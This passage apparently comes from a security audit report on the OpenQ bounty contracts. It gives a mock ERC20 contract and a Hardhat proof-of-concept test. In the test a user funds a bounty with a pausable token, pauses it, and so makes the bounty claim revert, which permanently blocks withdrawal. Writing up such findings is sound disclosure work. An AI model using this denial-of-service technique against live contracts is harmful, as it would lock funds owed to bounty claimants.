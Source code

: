 and edit the MockDai

https://github.com/sherlock-audit/2023-02-openq/blob/main/contracts/Mocks/MockDai.sol#L7

```solidity
contract MockDai is ERC20 {
    address public admin;

    constructor() ERC20('Mock DAI', 'mDAI') {
        _mint(msg.sender, 10000 * 10**18);
        admin = msg.sender;
    }

    function mint(uint256 amount) external {
        _mint(msg.sender, amount * 10 ** 18);
    }
}
```

Then we added the POC, in the POC, user1 supplies MockLink and then pause the token before developer claims the bounty and the claim transaction revert.

https://github.com/sherlock-audit/2023-02-openq/blob/main/test/ClaimManager.test.js#L254

```javascript
it('User can supply malicious ERC20 token to block bounty withdraw', async () => {
	// ARRANGE

	const [ user1, user2, user3 ] = await ethers.getSigners();
	
	await openQProxy.mintBounty(Constants.bountyId, Constants.organization, atomicBountyInitOperation);
	const bountyAddress = await openQProxy.bountyIdToAddress(Constants.bountyId);

	const volume = 100;
	const tokenDepositId = generateDepositId(Constants.bountyId, 0);

	await mockLink.connect(user1).approve(bountyAddress, 10000000);
	await mockDai.connect(user2).approve(bountyAddress, 10000000);
	await mockDai.connect(user2).mint(1000000);

	await depositManager.connect(user1).fundBountyToken(bountyAddress, mockLink.address, volume, 1, Constants.funderUuid);
	await depositManager.connect(user2).fundBountyToken(bountyAddress, mockDai.address, volume, 1, Constants.funderUuid);

	// const expectedTimestamp = await setNextBlockTimestamp(2764900);
	// await depositManager.connect(user1).refundDeposit(bountyAddress, tokenDepositId)

	// ASSUME
	let bountyIsClaimable = await claimManager.bountyIsClaimable(bountyAddress);
	expect(bountyIsClaimable).to.equal(true);

	await mockLink.pause();
	await claimManager.connect(oracle).claimBounty(bountyAddress, user3.address, abiEncodedSingleCloserData);

	// ASSERT
	bountyIsClaimable = await claimManager.bountyIsClaimable(bountyAddress);
	expect(bountyIsClaimable).to.equal(false);
});
```
